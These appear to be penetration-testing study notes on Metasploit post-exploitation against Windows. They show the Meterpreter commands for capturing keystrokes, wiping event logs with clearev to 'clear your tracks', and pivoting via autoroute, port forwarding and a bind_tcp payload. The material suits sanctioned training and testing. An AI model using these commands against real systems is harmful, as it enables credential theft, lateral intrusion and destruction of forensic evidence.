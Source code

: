 
# Windows Keylogging

- Keylogging is the process of recording or capturing the keystrokes entered on a target system
- This technique is not limited to post exploitation, there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system
- Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered on a target system and download them back to our local system

### DEMO

```shell
meterpreter: pgrep explorer # Important to use this process
meterpreter: migrate <PID-explorer>
meterpreter: keyscan_dump
meterpreter: keyscan_start
meterpreter: keyscan_stop
```


# Clearing Windows Event Logs

- The Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event log
- Event logs are categorized based on the type of events they store
	- Application logs: Stores application/program events like startups, crashes etc.
	- System logs: Stores system events like startups, reboots etc.
	- Security logs: Stores security events like password changes, authentication failures etc.
- Event log can be accessed via the Event Viewer on Windows
- The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment

### DEMO

```shell
meterpreter: clearev 
```


# Pivoting

- Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host's private internal network
- After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously
- Meterpreter provides us with the ability to add a network route to the internal network's subnet and consequently scan and exploit other systems on the network

### DEMO

```shell
# The route works only with module within msfconsole 
meterpreter: ipconfig # List interface available
meterpreter: run autoroute -s <ip-target1>/cidr # Add a route, use x.x.x.0/cidr
msf6: sessions -n <name> -i <Id> # Change name of a session
msf6: auxiliary(scanner/portscan/tcp) # Scan the added route
msf6: set rhosts <ip-target2> 
# Need to port forward
meterpreter: portfwd add -l <local-port> -p <port-to-fwd> -r <ip-target2>
# Now can use db_nmap
msf6: db_nmap -sS -sv -p <local-port> localhost

msf6: exploit(...)
msf6: set payload windows/meterpreter/bind_tcp
```